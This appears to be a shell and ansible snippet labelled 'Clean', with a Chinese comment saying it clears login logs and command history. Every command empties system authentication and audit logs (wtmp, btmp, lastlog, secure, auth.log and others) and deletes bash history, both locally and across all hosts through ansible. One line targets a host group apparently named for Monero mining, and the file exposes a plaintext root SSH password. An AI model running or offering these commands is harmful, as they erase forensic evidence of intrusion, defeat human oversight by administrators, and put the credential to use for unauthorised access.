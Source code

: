 # Clean
# 清除登录日志及历史命令
echo > /var/log/wtmp
echo > /var/log/btmp
echo > /var/log/lastlog
echo > /var/log/secure
echo > /var/log/messages
echo > /var/log/syslog
echo > /var/log/xferlog
echo > /var/log/auth.log
echo > /var/log/user.log
# 清除记录
rm -rf ~/.bash_history
history -c

# ansible
ansible all -m shell -a "echo > /var/log/wtmp && echo > /var/log/btmp && echo > /var/log/lastlog && echo > /var/log/secure && echo > /var/log/messages && echo > /var/log/syslog && echo > /var/log/xferlog && echo > /var/log/auth.log && echo > /var/log/user.log && rm -rf ~/.bash_history && rm -rf ~/.bash_history"
ansible xmr1 -m shell -a "systemd-resolve --flush-caches && systemctl daemon-reload && systemctl restart ufwd"
ansible_ssh_user=root ansible_ssh_pass="1+2mx8m,>D"


